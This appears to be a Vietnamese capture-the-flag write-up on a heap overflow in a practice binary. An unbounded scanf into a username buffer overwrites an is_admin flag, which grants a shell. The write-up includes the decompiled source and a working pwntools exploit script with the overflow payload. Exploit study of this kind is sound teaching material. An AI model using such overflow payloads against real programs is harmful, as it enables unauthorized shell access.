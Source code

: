 # Heap over flow (HOF).
- Cơ bản thì `HOF` cũng giống như `BOF` thay vì ta ghi đè trên stack thì ta lại ghi đè trên `heap`, ta chỉ có thể thay đỏi giá trị cũng như các địa chỉ thực thi được chương trình lưu trữ trên stack, ko thể khai thác bằng cách `OW rip` như `BOF` được.
## Tự Hành.
### 1. Source.  
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  puts("******************************************");
  puts("*    Unauthorize access is forbidden!    *");
  puts("******************************************\n");
  printf("Username: ");
  __isoc99_scanf("%s", username_input);
  printf("Password: ");
  __isoc99_scanf("%s", password_input);
  if ( !memcmp(username_input, username_check, 0x200uLL) && !memcmp(password_input, password_check, 0x200uLL) )
    *(_DWORD *)is_admin = 1;
  if ( *(_DWORD *)is_admin == 1 )
  {
    puts("Access granted!");
    system("/bin/sh");
  }
  else
  {
    puts("Access forbidden!");
  }
  return 0;
}
``` 
### 2. Hướng giải.
- Ta có thể thu được shell bằng cách nhập `username_input` và `password_input` giống với `username_check` và  `password_check` để `is_admin = 1` và ta sẽ thu được shell *NHƯNG* hãy nhìn vào ảnh sau :
![1700840660946](image/HEAP-2/1700840660946.png)
- `%s` là 1 lỗi `BOF` ta có thể `OW` các dữ liệu khác , vì thế thay vì phải leak `username_check` và  `password_check` thì ta có thể trực tiếp `OW is_admin = 1` mà ko cần phải thông qua điề kiện cả chương trình , cùng vào GDB debug nhóe.
![1700841050496](image/HEAP-2/1700841050496.png)
- Ta vào xem `scanf` ở lần nhập vào `username_input` , nhìn ảnh bạn có thể thấy ở `heap chunks` có thể thấy được địa chỉ heap của `is_admin` , việc cả ta là tính offset từ `username_input` tới `is_admin` ghi vào đấy `0x1` là ta sẽ thu được shell , thế nên tớ sẽ viết script vào để bug lại cách hoạt động của chương trình nhé.
![1700841446368](image/HEAP-2/1700841446368.png)
- `offset` : ![1700841507403](image/HEAP-2/1700841507403.png)
- debug thử sau khi đã `HOF` :
![1700841570167](image/HEAP-2/1700841570167.png)
    - bạn có thể thấy ta đã ghi đè thành công , ghi đè luôn cả dữ liệu của `password_input` cho nên chương trình ko thể hiểu và in ra các `chunk` khác.
    ![1700841708456](image/HEAP-2/1700841708456.png)
    - Ta đã OW `is_admin = 1` thành công mà ko phải thỏa bất kì điều kiện gì của chương trình.
    ![1700841762662](image/HEAP-2/1700841762662.png)
    - Ta thành công thu được shell.
### 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('hof1', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+98
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('0', 0)
else:
        p = process(exe.path)

GDB()
payload = b'a'*0x420 + p64(0x1)
sla(b"Username: ", payload)
sla(b"Password: ", b'bbbb')
p.interactive()
```